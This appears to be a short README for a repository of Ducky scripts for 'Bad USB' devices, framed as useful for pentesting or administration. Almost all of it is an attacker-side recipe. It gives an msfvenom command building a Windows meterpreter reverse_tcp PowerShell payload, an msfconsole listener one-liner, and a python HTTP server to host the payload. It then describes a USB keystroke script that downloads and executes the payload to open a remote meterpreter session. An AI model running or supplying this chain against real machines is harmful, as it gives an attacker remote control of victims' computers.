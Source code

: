 # Various Ducky scripts for Bad USBs
Can be used for pentesting or administrative tasks.

# Attacker's Machine

# Create the payload with msfvenom 
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=AttacksersIP LPORT=AttackersPort -f psh -o PAYLOAD.ps1
# Open msfconsole and start listener
msfconsole -x "use multi/handler;set payload windows/x64/meterpreter/reverse_tcp; set lhost IP; set lport PORT; set ExitOnSession false; exploit -j"
# Start start python http server
python3 -m http.server 80
# Ducky script will download and execute powershell script opening meterpreter session



